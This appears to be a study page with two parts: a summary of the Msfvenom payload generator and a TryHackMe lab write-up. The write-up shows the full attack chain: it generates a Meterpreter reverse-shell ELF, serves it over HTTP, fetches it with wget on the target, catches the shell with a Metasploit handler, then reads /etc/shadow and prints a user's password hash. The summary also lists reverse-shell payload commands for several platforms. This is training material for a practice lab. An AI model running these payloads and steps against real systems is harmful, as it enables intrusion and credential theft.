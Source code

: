 # Overview of Msfvenom and Payload Generation 

## Introduction 
Msfvenom is a tool that has replaced Msfpayload and Msfencode for generating payloads within the Metasploit framework. It allows the creation of payloads in various formats for different operating systems. 

## Key Points 

1. Functionality of Msfvenom 
• Msfvenom offers access to all payloads in the Metasploit framework. 

• It supports creating payloads in multiple formats (e. g. , PHP, exe, dll, elf) for different target systems (e. g. , Apple, Windows, Android, Linux). 

2. List of Available Payloads 

• Msfvenom provides a command to list all available payloads, which totals 562. 

• Examples of payloads include: 

• `aix/ppc/shell_bind_tcp`: Listens for a connection and starts a command shell. 

• `android/meterpreter/reverse_http`: Runs a meterpreter server on Android, using HTTP for communication. 

• `apple_ios/aarch64/meterpreter_reverse_tcp`: Executes a Meterpreter server payload for iOS devices. 

3. Output Formats 

• Users can generate standalone payloads (like a Windows executable) or output raw formats (like Python). 

• The command `msfvenom --list formats` lists supported output formats. 

4. Encoders 

• Encoders do not primarily aim to bypass antivirus but instead encode the payload. 

• Modern techniques for obfuscation and shellcode injection are more effective. 

• Example usage with encoding includes a command to encode a PHP Meterpreter payload in Base64. 

5. Generating a PHP Payload 

• Commands to generate PHP payloads using Msfvenom require specifying parameters such as local machine IP and port. 

• An example command creates a reverse shell for PHP, and the output is saved to a file without PHP tags, requiring manual editing before use. 

6. Handlers 

• Handlers are necessary to accept connections generated by MSFvenom payloads. 

• A familiar scenario includes exploiting a vulnerability in the DVWA where a PHP shell is created, and a Metasploit handler is started to accept connections. 

7. Setting Up the Listener 
• Using Multi Handler allows setting up to receive incoming connections. 

• The commands set the appropriate payload and listening parameters (LHOST and LPORT). 

8. Waiting for the Reverse Shell 

• Once the handler is up and running, it waits for the reverse shell connection to be triggered. 

• If set correctly, a connection will successfully establish a shell. 

9. Other Payload Types 

• Msfvenom can create various payloads based on the target machine’s configuration. 

• Examples include: 

• Linux ELF: `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10. 10. X. X LPORT=XXXX -f elf &gt; rev_shell. elf` 

• Windows: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10. 10. X. X LPORT=XXXX -f exe &gt; rev_shell. exe` 

• PHP: `msfvenom -p php/meterpreter_reverse_tcp LHOST=10. 10. X. X LPORT=XXXX -f raw &gt; rev_shell. php` 

• ASP: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10. 10. X. X LPORT=XXXX -f asp &gt; rev_shell. asp` 

• Python: `msfvenom -p cmd/unix/reverse_python LHOST=10. 10. X. X LPORT=XXXX -f raw &gt; rev_shell. py` 

## Conclusion 
Msfvenom is a powerful tool for generating various types of payloads suited for different exploits. Proper configuration of both the payload and the handler is essential for successful exploitation and command shell access. Each created payload must be aligned with the corresponding handler settings to establish effective communication between the attacker and the target system.


# Try Hack ME Write Up

MSFvenom allows us to generate payloads, and thats what we are doing in this task. 

- Q: What is the other user's password hash?

- A: $6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0

- C:
   First we need to use:
   ```bash
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.33.99 LPORT=4444 -f elf > shell.elf

    chmod 777 shell.elf

    python3 -m http.server 9000
   ```
   On the other shell (Victim box), we need to download the file, so:
   ```bash
    wget http://10.10.33.99:9000/shell.elf
    sudo su
    chmod +x shell.elf (if needed)
    
   ```
   Now using msfconsole and a multi/handler, we generated a reverse shell with the same payload of the venom command. 

      ```bash
        msfconsole
        use  exploit/multi/handler 
        set LHOST machine_ip
        set LPORT 4444
        set payload linux/x86/meterpreter/reverse_tcp
        run
      ```
    Now just execute shell.elf on the target machine
    After getting the reverse shell, all its left is getting the other user's hash:
    ```bash
     cd etc
     cat shadow

    ``` 
    Claires hash is: $6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0

HAPPY Hunting!

## Contribution
If u have a better way please tell me about it... im looking to learn best practices and best attack segments to became a better cybersecurity expert!
